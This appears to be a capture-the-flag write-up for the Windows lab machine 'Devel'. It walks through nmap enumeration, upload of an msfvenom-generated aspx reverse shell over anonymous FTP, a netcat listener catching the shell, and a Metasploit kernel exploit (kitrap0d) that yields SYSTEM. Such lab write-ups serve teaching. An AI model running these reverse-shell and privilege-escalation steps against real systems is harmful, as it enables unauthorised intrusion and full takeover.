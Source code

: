 # Devel

## Overview

On the machine a webserver and a FTP server are found to be running. Looking into the FTP server we find that we can upload files to the webserver. At this point a reverse shell is made and uploaded to the server. Once uploaded the shell is ran and a user shell is obtained on the machine. Looking into the machine a kernel exploit is found. Using metasploit, this kernel exploit is ran and a shell as NT Authority/System is gained.

## Enumeration

To begin 2 seperate nmap scans are run. The first one is to discover all of the open ports on the machine and the other is used to gain information about each port. There are only 2 ports that are open on the machine. The first is a webserver on port 80 and the other is a FTP server on port 21.

The first scan to find all the ports is:

```bash
sudo nmap -p- 10.10.10.5 -oA nmap/all-ports  
[sudo] password for tc:    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 23:50 EDT  
Nmap scan report for 10.10.10.5  
Host is up (0.019s latency).  
Not shown: 65533 filtered ports  
PORT   STATE SERVICE  
21/tcp open  ftp  
80/tcp open  http  
  
Nmap done: 1 IP address (1 host up) scanned in 104.81 seconds
```

The second scan to gain more information is:

```bash
sudo nmap -p21,80 -sC -sV -oA nmap/info 10.10.10.5  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 23:53 EDT  
Nmap scan report for 10.10.10.5  
Host is up (0.019s latency).  
  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     Microsoft ftpd  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
| 03-18-17  01:06AM       <DIR>          aspnet_client  
| 03-17-17  04:37PM                  689 iisstart.htm  
|_03-17-17  04:37PM               184946 welcome.png  
| ftp-syst:    
|_  SYST: Windows_NT  
80/tcp open  http    Microsoft IIS httpd 7.5  
| http-methods:    
|_  Potentially risky methods: TRACE  
|_http-server-header: Microsoft-IIS/7.5  
|_http-title: IIS7  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 7.65 seconds
```

## Getting user shell

We find that the FTP server has anonymous access. After connecting to the FTP server and looking at the files it looks like the files on the webserver.

```bash
ftp> dir  
200 PORT command successful.  
125 Data connection already open; Transfer starting.  
03-18-17  01:06AM       <DIR>          aspnet_client  
03-17-17  04:37PM                  689 iisstart.htm  
03-17-17  04:37PM               184946 welcome.png  
226 Transfer complete.
```

We also find that we can upload files to the FTP server. At this point we decide to create a reverse shell and trying to get it to run on the server. In order to make a reverse shell we need code execution. On a windows server without PHP code execution can be gained by using an aspx or asp file. Using msfvenom we can generate a reverse shell in the aspx form.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST={IP Address} LPORT=9001 -f aspx > rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2701 bytes
```

After the creating the file we then upload it to the server. 

```bash
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:user): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put rev.aspx
local: rev.aspx remote: rev.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2736 bytes sent in 0.00 secs (76.7427 MB/s)
ftp> dir
421 Service not available, remote server has closed connection
ftp> exit
```

At this point all that is needed is to navigate to the webpage and catching the shell. 

![Navigating to webpage](attachments/devel1.png)

```bash
nc -nlvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.5.
Ncat: Connection from 10.10.10.5:49158.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection 3:

   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : dead:beef::58c0:f1cf:abc6:bb9e
   Temporary IPv6 Address. . . . . . : dead:beef::68c4:b0bd:7512:ec01
   Link-local IPv6 Address . . . . . : fe80::58c0:f1cf:abc6:bb9e%15
   IPv4 Address. . . . . . . . . . . : 10.10.10.5
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:3982%15
                                       10.10.10.2

Tunnel adapter isatap.{C57F02F8-DF4F-40EE-BC21-A206B3F501E4}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Tunnel adapter Local Area Connection* 9:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

At this point we can access the user.txt file. 

## Getting root

At this point a we upgrade to a meterpreter shell. The easiest way to do this is change the payload we use in the msfvenom command. Instead of using ```windows/shell_reverse_tcp``` we can use ```windows/meterpreter_reverse_tcp```. Once we are in a meterpreter shell we can use the metasploit module ```local_exploit_suggester```. Using this module we get a list of different options to escalate our shell. 

```bash
[*] 10.10.10.5 - Collecting local exploits for x86/windows...   
[*] 10.10.10.5 - 37 exploit checks are being tried...  
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.  
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.   
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.  
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated  
.  
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.  
[*] Post module execution completed
```

Looking at the list above, we see that the expoit ```exploit/windows/local/ms10_015_kitrap0d``` shows that the service is running. Using this exploit we end up getting a shell as NT Authority/System. We then can access the root.txt flag.